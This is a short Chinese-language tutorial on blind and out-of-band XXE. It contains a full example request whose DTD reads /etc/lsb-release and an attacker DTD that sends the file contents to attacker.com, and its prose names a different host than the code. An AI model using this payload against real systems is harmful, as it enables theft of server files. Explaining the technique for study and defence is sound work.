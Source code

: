 ```yaml
---
title: "Blind XXE 与 OOB-XXE"
id: zhfly3591
---
```


### Blind XXE 与 OOB-XXE

一般xxe利用分为两大场景：有回显和无回显。有回显的情况可以直接在页面中看到Payload的执行结果或现象（**带内** [XML外部实体（XXE](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)），即攻击者可以发送带有XXE有效负载的请求并从包含某些数据的Web应用程序获取响应），无回显的情况又称为blind xxe，可以使用外带数据通道提取数据即带外XML外部实体（OOB-XXE）。

以下是攻击者如何利用参数实体使用带外（OOB）技术窃取数据的示例。

request:

```
POST http://example.com/xml HTTP/1.1 `<!DOCTYPE data [

<!ENTITY % file SYSTEM

“file:///etc/lsb-release”>

<!ENTITY % dtd SYSTEM

“[http://attacker.com/evil.dtd](http://attacker.com/evil.dtd)”>

%dtd;

]>

<data>&send;</data>` 
```

攻击者DTD

```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?collect=%file;'>">
%all; 
```

XML解析器将首先处理`%file`加载文件的参数实体`/etc/lsb-release`。接下来，XML解析器将在**http://www.0-sec.org/evil.dtd**向攻击者的DTD发出请求。

一旦处理了攻击者的DTD，`all%`参数实体将创建一个名为**＆send**的**通用**实体**;** ，其中包含一个包含文件内容的URL（例如http://www.0-sec.org/?collect=DISTRIB_ID=Ubuntu …）。最后，一旦URL构造的`&send`; 实体由解析器处理，解析器向攻击者的服务器发出请求。然后，攻击者可以在其结尾处记录请求，并从记录的请求中重建文件的内容。